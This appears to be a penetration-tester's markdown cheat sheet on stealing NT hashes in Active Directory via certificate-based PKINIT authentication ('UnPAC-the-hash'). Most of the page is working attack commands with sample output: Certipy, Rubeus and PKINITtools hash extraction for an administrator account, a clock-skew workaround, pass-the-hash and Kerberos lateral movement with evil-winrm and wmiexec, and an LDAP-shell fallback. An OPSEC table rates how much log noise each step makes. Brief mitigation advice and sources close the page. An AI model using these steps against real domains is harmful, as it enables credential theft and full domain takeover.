

# THEFT5 — NTLM Theft via PKINIT (UnPAC-the-Hash)

## Quick Reference

| Field | Value |
|-------|-------|
| **Category** | Credential Theft (protocol) |
| **Difficulty** | Low |
| **Pre-requisites** | Any certificate with an authentication EKU for the target account |
| **Tools** | Certipy, Rubeus, gettgtpkinit (PKINITtools) |
| **OPSEC Noise** | Low — normal Kerberos traffic |
| **One-liner** | Turn a certificate into the account's **NT hash**: authenticate via Kerberos **PKINIT**, then use **U2U** to read the NTLM hash embedded in the PAC. |

***

## What Is THEFT5?

When you authenticate with a certificate via **PKINIT**, the KDC returns a TGT whose **PAC** contains the account's **NTLM hash** (so the account can later do NTLM auth after a smart-card logon). "UnPAC-the-hash" requests a **User-to-User (U2U)** service ticket to yourself, decrypts the PAC, and reads that hash out. Net effect: a `.pfx` becomes both a TGT **and** the NT hash, with no password ever touched. "Pass-the-Certificate" is the related idea of simply using the cert to authenticate.



***

## Step 1 — Certipy (one command does it all)

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip $TARGET
```

```
[*] Using principal: administrator@domain.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@domain.htb': aad3b...:8da83a3fa618b6e3a00e93f676c92a6e
```

> [!warning] Clock skew
> PKINIT is Kerberos. On `KRB_AP_ERR_SKEW`, wrap with faketime (see faketime-cheatsheet):
> `faketime -f '+7h30m' certipy-ad auth -pfx administrator.pfx -dc-ip $TARGET`

***

## Step 2 — Windows (Rubeus)

```powershell
.\Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /getcredentials /nowrap
#   /getcredentials performs the UnPAC step and prints the NT hash
```

***

## Step 3 — PKINITtools (manual, when Certipy is blocked)

```bash
python3 gettgtpkinit.py -cert-pfx administrator.pfx domain.htb/administrator admin.ccache
export KRB5CCNAME=admin.ccache
python3 getnthash.py -key <AS-REP-key-from-above> domain.htb/administrator
```

***

## Step 4 — Spend It

```bash
# Kerberos path (quieter)
export KRB5CCNAME=administrator.ccache
wmiexec.py -k -no-pass DC01.domain.htb

# Pass-the-Hash path
evil-winrm -i $TARGET -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
```

> [!tip] LDAP fallback (no PKINIT on the DC)
> If the DC lacks a KDC certificate, PKINIT fails. Authenticate the cert over Schannel/LDAPS instead:
> `certipy-ad auth -pfx administrator.pfx -ldap-shell -dc-ip $TARGET`

***

## OPSEC Considerations

| Action | Log | Noise |
| :-- | :-- | :-- |
| PKINIT AS-REQ | Event 4768 (TGT, cert info) on DC | 🟢 Low |
| U2U UnPAC | additional TGS request | 🟢 Low |
| Pass-the-Hash after | Event 4624 type 3/9 | 🟡 Medium |

***

## Mitigation

- Enforce `StrongCertificateBindingEnforcement = 2` so forged-SAN certs cannot ride PKINIT.
- Monitor 4768 events that include certificate information without a corresponding smart-card enrolment.
- Rotate NT hashes/reset accounts whose certs are known-compromised (revoke the cert too).

***

## See Also

- _ADCS Attack Methodology Guide · THEFT1 — Exporting Certificates and Keys · faketime-cheatsheet · Shadow Credentials — msDS-KeyCredentialLink Abuse
- Sources: SpecterOps *Certified Pre-Owned*; [PKINITtools](https://github.com/dirkjanm/PKINITtools); [The Hacker Recipes — UnPAC the hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash)
